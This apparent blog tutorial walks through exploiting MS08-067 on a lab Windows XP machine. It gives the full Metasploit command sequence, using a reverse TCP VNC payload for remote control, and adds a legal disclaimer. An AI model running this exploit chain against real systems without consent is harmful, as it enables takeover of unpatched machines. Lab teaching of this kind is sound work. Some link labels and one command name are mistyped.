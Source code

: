 ```yaml
---
layout: post
title:  "First Hack Part 3 (Searching for Targets and their Weaknesses)"
date:   2018-04-16 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 1 (Installing The Virtual Network)][part-1]
<br>[Part 3 (Exploiting The Vulnurability)][part-2]

Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.

<b>Roadmap</b>

Now comes the fun part. Using a tool called Metasploit in order to break into the Windows XP computer with a VNC. a VNC is simply a window that displays the target desktop. It allows you to control it the same way you are controlling your virtual machine. There are 4 simple steps to this.

Searching for the exploit command

Loading the exploit (Code to exploit the weakness)

Loading the payload (Software used to give you control)

Set the Settings and "pwn the box"

<b>Searching for the Exploit Command</b>

The first thing we need to do is use the code identified in part 2. MS08_067 is the exploit we will use. But how do we load it? We need to get the command from the rapid7 database. Go to...

[https://www.rapid7.com/db][rapid7]

Type "MS08_067" in the search field and make sure "Metasploit Module" is selected in the dropdown box.

Look at the code under "Module Name." We will use that once we load Metasploit

<b>Loading the Exploit and Payload</b>

[Offensive Security: Metasploit Commands][commands]

[Offensive Security: Exploits][exploits]

[Offensive Security: Payloads][payloads]

Open a terminal and load Metasploit's terminal interface with the following command

{% highlight ruby %}
msfconsole
{% endhighlight %}

Use the exploit we found in Rapid7 with the "use" command.

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

There are many useful payloads. I will recommend we use a reverse TCP payload in order to gain a VNC session. Load the payload with the "set" command.

{% highlight ruby %}
set PAYLOAD windows/vncinject/reverse_tcp
{% endhighlight %}

<b>Settings</b>

We want to see if we have the correct settings. Use the following command.

{% highlight ruby %}
show options
{% endhighlight %}

You should get something that looks like this

![image tooltip](/blog/images/ms08_067/msfconsole_show_options1.JPG)

You may have noticed a few lines are missing. Specifically LHOST and RHOST. LHOST is the local host (your PC) and RHOST is the remote host (target PC)

Let's fill those in with the set command

{% highlight ruby %}
set RHOST 192.168.1.244
#I am using the ip of my own target computer. Use the IP for your own
{% endhighlight %}

Before we fill in LHOST, we need to the the IP of your own Linux machine.

Press Ctrl+Shift+T in order to bring up a new terminal tab

{% highlight ruby %}
sifconfig
{% endhighlight %}

You should get something like this. I highlighted the IP in yellow. Your IP will be in the same spot but most likely different.

![image tooltip](/blog/images/ms08_067/ifconfig.JPG)

{% highlight ruby %}
set LHOST 192.168.1.48
#use the IP you just looked up in ifconfig
{% endhighlight %}

We filled in all the empty fields so we should be good right? Almost. By default, the VNC will only let you spy on the target machine. We want to enable control. Make one more setting.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

Run the show options again and make sure you have these settings.

![image tooltip](/blog/images/ms08_067/msfconsole_show_options2.JPG)

<b>Hack It!</b>

Finally, run the command

{% highlight ruby %}
exploit
{% endhighlight %}

Congratulations, you did it!!

![image tooltip](/blog/images/ms08_067/owned.JPG)



[part-1]: MS08_067_Part_1.html
[part-2]: MS08_067_Part_2.html
[rapid7]: https://www.rapid7.com/db
[commands]: https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/
[exploits]: https://www.offensive-security.com/metasploit-unleashed/exploits/
[payloads]: https://www.offensive-security.com/metasploit-unleashed/payloads/
